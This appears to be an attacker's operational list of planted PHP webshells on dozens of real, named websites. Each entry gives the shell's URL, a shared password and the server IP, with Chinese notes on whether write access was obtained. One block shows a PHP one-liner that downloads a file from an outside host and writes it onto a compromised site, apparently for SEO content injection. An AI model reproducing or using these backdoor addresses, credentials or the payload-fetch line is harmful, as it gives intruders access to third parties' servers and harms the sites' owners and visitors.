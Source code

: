 https://zhimazhihui.com/ |mmk123 | | 81.68.249.222

http://www.loront.com/template/default/images/sms/mr1.php |mmk123 | | 81.68.249.222


http://www.bengzhiyuan.com/1.php |mmk123 | | 81.68.249.222
http://www.bengzhiyuan.cn/static/upload/image/20220724/mr1.php |mmk123 | | 81.68.249.222
https://kangbanmeijia.com/template/default/bootstrap/css/2m.php |mmk123 | | 81.68.249.222

https://gpzyjy.com/static/upload/image/20220909/2m.php |mmk123 | | 8.141.57.49
代码更新：
https://gpzyjy.com/gp/nginx.php  名字任意
<?php file_put_contents("../m/nginx.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
TDK检查：
https://gpzyjy.com/m/nginx.php?d=up

http://www.zhengxin7.com/uploads/allimg/230306/1m.php |mmk123 | | 122.228.223.253
https://www.zhengxin6.com/uploads/allimg/230418/1m.php |mmk123 | | 163.181.78.248     文件过大改不了
https://www.zhengxin123.net/uploads/20230404/1m.php |mmk123 | | 122.228.223.252       没权限
https://www.zhengxin2.com/images/swfupload/plugins/12m.php |mmk123 | | 61.160.192.100
http://www.zhengxin3.com/plus/img/face/32m.php |mmk123 | | 122.228.223.248
https://dpjk.qxlcyjt.com/yCEjBQrapG.php |mmk123 | | 47.97.25.132
http://xl.dzpc.net/m/images/32m.php |mmk123 | | 47.96.84.204 没权限
https://xr.xkji.cn/yuq/js/32m.php |mmk123 | | 47.93.234.132
http://jobtool.ehongya.com/templates/default/index.php |mmk123 | | 47.93.234.132
https://www.taiguii.com/static/upload/image/20230719/12m.php |mmk123 | | 47.93.234.132   没修改权限
http://bbs.xkji.cn/uc_client/lib/xml.class.php |mmk123 | | 47.93.234.132  没修改权限
https://cqll.vwxr.cn/content/images/haibao/12m.php |mmk123 | | 47.93.234.132  没权限
https://www.kingmin.cn//wapp/image/portrait/20201216/11m.php |mmk123 | | 47.93.234.132  没修改权限
https://wq.xkji.cn/web/themes/black/11m.php |mmk123 | | 47.93.234.132  没修改权限
http://www.juxingjituan.com/static/upload/image/20200425/11m.php |mmk123 | | 47.112.240.242    没修改权限
https://instruments.uni-trend.com.cn//template/default/datetimepicker/js/locales/mr1.php |mmk123 | | 47.107.53.147    没权限
https://meters.uni-trend.com.cn/static/upload/other/20221221/11m.php |mmk123 | | 47.107.53.147   没权限
http://www.hhkj2021.cn/runtime/data/11m.php |mmk123 | | 47.104.169.49  没权限
http://www.idwod.cn/assets/images/index/11m.php |mmk123 | | 47.104.169.49  没修改权限
http://www.huodongtoutiao.cn/static/upload/image/20230711/m11.php |mmk123 | | 47.101.35.255  没权限
http://ofqf.com//help/m11.php |mmk123 | | 47.101.35.255  没权限
http://www.ofzs.com/help/m11.php |mmk123 | | 47.101.35.255  无用站点
http://www.huodongtoutiao.cn/static/upload/image/20230814/m11.php |mmk123 | | 47.101.35.255  没权限
http://www.hantinghang.com/static/upload/image/20221221/m11.php |mmk123 |www.liuzhenwu.cn -> /www/wwwroot/www.liuzhenwu.cn/images/ | 47.101.35.255  没权限
http://www.hantinghang.com/static/upload/image/20221221/m11.php |mmk123 | | 47.101.35.255   没权限
http://ofzs.com/help/m11.php |mmk123 | | 47.101.35.255  无用站点
http://aliyun.ofzj.com/help/m11.php |mmk123 | | 47.101.35.255  无用站点
https://hxy.gzsqykj.com/uploads/10001/20230704/11.php |mmk123 | | 39.99.163.186   没权限
http://www.sdrechem.com/ruien2021.php |mmk123 | | 211.149.190.167 没权限
http://zbguanlong.com/dd.php |mmk123 | | 211.149.190.167 没权限
http://www.sdygsteel.com/basic.php |mmk123 | | 211.149.190.167 没权限
http://www.zbyinyizhiye.com/core.php |mmk123 | | 211.149.190.167 没权限
http://www.sdxlsz.com/basic.php |mmk123 | | 211.149.190.167 没权限
http://www.xingfuhuanbao.com/core.php |mmk123 | | 211.149.190.167 没权限
http://www.dyhuayuan.cn/core.php |mmk123 | | 211.149.190.167 没权限
http://chnzttrading.com/aasaa.php |mmk123 | | 211.149.190.167 没权限
http://www.sdmlqp.com/basic.php |mmk123 | | 211.149.190.167 没权限
http://www.zbhzjc.com/aasaa.php |mmk123 | | 211.149.190.167 没权限
http://btqgy.com/.bhbdlbl.php |mmk123 | | 211.149.190.167 没权限
http://www.dyxqmj.com/basic.php |mmk123 | | 211.149.190.167 没权限
http://www.zbjrbw.com/configs.php |mmk123 | | No ID found 没权限
http://guoyinjx.com/core.php |mmk123 | | 211.149.190.167 没权限
http://sddayunxx.com/indexbak.php |mmk123 | | 211.149.190.167 没权限
http://rdtce.com/core.php |mmk123 | | 211.149.190.167 没权限
http://sdmlqp.com/aasaa.php |mmk123 | | 211.149.190.167 没权限